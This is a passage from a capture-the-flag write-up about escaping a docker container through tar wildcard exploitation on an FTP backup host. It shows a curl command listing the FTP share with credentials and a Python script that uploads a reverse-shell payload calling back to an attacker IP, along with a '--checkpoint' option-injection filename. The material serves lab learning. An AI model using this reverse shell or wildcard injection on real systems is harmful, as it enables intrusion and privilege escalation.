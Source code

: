 **My thoughts when i looked  the script:**

- It is somehow looking like a script to upload files to ftp
- It has a host but it is internal access only
- The script isn't complete yet

So at this moment i struggled as well. I was learning as well and it felt like it was out of my league. I knew i was in a docker container and i had to escape it. Finding this script i knew i had a ftp login creds which i can use but didn't **know how can i exploit ?**

I took some help and research about **[wildcard exploitation](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)** 

**After looking how can i automate this, found that in container `python3.7` is installed which is going to be helpful for us**

**I will try my best to explain it to you**

I curl to the host we are given with the creds and list what's inside using this

```bash
curl -v -s -P- 'ftp://backupmgr:[REDACTED]@172.20.0.1/'
```

`-v` verbose output

`-s` silent mode

`-P` we need to have proxy to make it work

```console
* Connection #0 to host 172.20.0.1 left intact
drwxr-xr-x    2 1001     1001         4096 May 18 16:14 files
www-data@Jeff:/var/www/html$
```
Okay! there's a `files` directory 

**So here's what i am gonna do**

- Create a python script to upload a reverse shell to that `files` so that when the connection is established we can escape the container

**But how?**

- When our exploit is at the ftp it gets executed using **TAR Wildcard Exploitation**

Here's the python script i will explain it as well

```python
#!/usr/bin/env python3.7

from ftplib import FTP
import io

#Connecting to the host
ftp = FTP(host= '172.20.0.1')

#login for ftp user
ftp.login(user= "backupmgr", passwd= "[REDACTED]")
ftp.getwelcome()

ftp.set_pasv(False)
ftp.dir()
ftp.cwd('/files')

payload = io.BytesIO(b'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.0.140",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'')
empty = io.BytesIO(b'')

ftp.storlines('STOR exploit.sh', payload)
ftp.storlines('STOR --checkpoint=1', empty)
```